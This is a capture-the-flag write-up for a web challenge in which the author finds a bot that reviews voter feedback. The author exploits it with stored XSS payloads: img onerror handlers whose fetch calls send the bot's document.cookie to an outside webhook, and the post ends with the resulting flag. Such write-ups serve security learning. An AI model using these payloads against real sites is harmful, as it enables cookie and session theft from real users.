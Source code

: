 # Trusted Clerk - web

## Challenge

The national elections in Freedonia have officially begun. In the spirit of transparency and continuous improvement, the Ministry of Electoral Integrity has launched a new early voting portal. Citizens are encouraged not only to cast their vote - but also to leave anonymous feedback about their voting experience.

“Your voice matters twice - once for your candidate, and once for your country.”

## Solve

The tile of this challenge suggested to me that there may be a bot simulating a 'clerk' reviewing feedback submissions. I have completed a challenge similar to this in a [previous CTF](https://github.com/jvargit/CTF_Challenges/blob/36a1160895f032489f5e0a2d33b9d98f9328452e/LACTF%202025/web/mavs-fan.md?plain=1#L2) so immediately submitted a payload to test whether my assumption was correct:

```html
<img src=x onerror='fetch("https://webhook.site/fc3270b1-5cc2-42d3-90d4-ff80455965ff", { method: "POST", body: "Bot visited!" })'
```

Soon enough my webhook site was pinged and I received the message:

hook.png

The 'trusted clerk' had opened up our submission with the stored XSS payload!

The next step was to experiment with payloads that called resources where the flag might be contained. It ended up being a cookie exfiltration:

```html
<img src=x onerror='
fetch("https://webhook.site/fc3270b1-5cc2-42d3-90d4-ff80455965ff", {
  method: "POST",
  body: document.cookie
});
'>
```

storedxss.png

`secedu{spr1nkle_s0me_http0nly_0n_y0ur_ch0colate_ch1p_c0oki3}`



